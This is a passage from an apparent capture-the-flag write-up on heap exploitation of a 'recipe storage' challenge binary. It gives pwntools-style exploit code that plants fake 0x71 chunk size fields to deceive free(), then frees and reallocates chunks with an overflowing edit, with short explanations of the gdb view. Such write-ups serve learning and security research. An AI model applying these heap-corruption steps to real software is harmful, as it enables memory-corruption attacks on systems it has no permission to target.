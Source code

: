 Next up we allocate 2 smaller chunks of size 0x60 from the **top_chunk**. These will be used to write fake size fields at the correct address, in order to trick **free**:
```
p = b"A"*64
p += p64(0x00)
p += p64(0x71)
malloc(4, 0x60, p)

p = b"H"*64
p += p64(0)
p += p64(0x71)
malloc(5, 0x60, p)
```
The 2 chunks in the code snippet above makes the end of our allocations look like this:
<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_4.png" style="width:100%; height:100%;" />
<br>
I know it might be confusing that I used 0x70 as fake size fields when the smaller 0x70 chunks were also 0x70. The 0x71 fields with A's or H's leading up to them are the fake ones. The first one with A's leading up to it at address 0x55555555c0e0 is the one that will be at 0x5c0 away from the beginning of the 0x5c0 chunk that we will allocate in a moment. The other one at address 0x55555555c150 with the H's leading up to it is the second one that was nescessary to convince **free** that the chunk adjacent to the 0x5c0 chunk was a 0x70 size chunk.<br>

Now we will free the 0x840 (at index 0) and then allocate two smaller chunks instead.<br>
```
free(0)

malloc(0, 0x420, b"C"*0x50)

p = b"Z"*0x428

edit(0, p)

malloc(6, 0x410, b"V"*0x410)
```
